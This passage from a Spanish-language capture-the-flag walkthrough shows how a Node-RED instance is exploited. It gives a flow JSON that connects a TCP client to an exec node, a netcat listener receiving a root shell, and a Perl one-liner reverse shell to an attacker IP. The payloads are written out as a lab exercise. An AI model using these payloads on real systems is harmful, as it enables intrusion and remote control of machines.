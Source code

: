     "name": "",
    "server": "client",
    "host": "10.10.XX.XX",
    "port": "3488",
    "datamode": "stream",
    "datatype": "buffer",
    "newline": "",
    "topic": "",
    "base64": false,
    "x": 281,
    "y": 337,
    "wires": [["4750d7cd.3c6e88"]]
  },
  {
    "id": "4750d7cd.3c6e88",
    "type": "exec",
    "z": "7235b2e6.4cdb9c",
    "command": "",
    "addpay": true,
    "append": "",
    "useSpawn": "false",
    "timer": "",
    "oldrc": false,
    "name": "",
    "x": 517,
    "y": 362.5,
    "wires": [["d03f1ac0.886c28"], ["d03f1ac0.886c28"], ["d03f1ac0.886c28"]]
  }
]
{% endhighlight %}  

{% highlight bash %}
root@kali# nc -lnvp 3488
listening on [any] 3488 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.94] 51766
> id
uid=0(root) gid=0(root) groups=0(root)

> pwd
/node-red

> ls /home
node

> ls /home/node
{% endhighlight %}

Luego abrir una reverse shell con perl, ya que la maquina virtual no posee python, nc, etc

{% highlight perl %}
perl -e 'use Socket;$i="10.10.14.30";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
{% endhighlight %}


[nmap]: https://github.com/nmap/nmap
[nodered]: https://quentinkaiser.be/pentesting/2018/09/07/node-red-rce/